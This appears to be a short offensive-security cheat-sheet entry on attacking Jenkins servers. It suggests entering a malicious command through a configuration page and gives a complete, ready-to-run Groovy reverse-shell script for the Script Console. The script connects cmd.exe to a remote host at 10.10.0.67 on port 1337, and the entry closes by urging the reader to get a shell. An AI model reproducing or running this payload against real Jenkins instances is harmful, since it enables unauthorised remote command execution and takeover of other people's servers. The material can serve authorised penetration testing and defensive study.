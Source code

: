 # Jenkins

### Execute Commands

Navigate to `Jenkins > Access > Configure > Command` and type a malicious command.

### Script Console

Navigate to `Manage Jenkins>>Script Console` and edit this code for a reverse connection:

```text
String host="10.10.0.67";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new 
Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), 
si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try 
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Click run and try to get a shell!


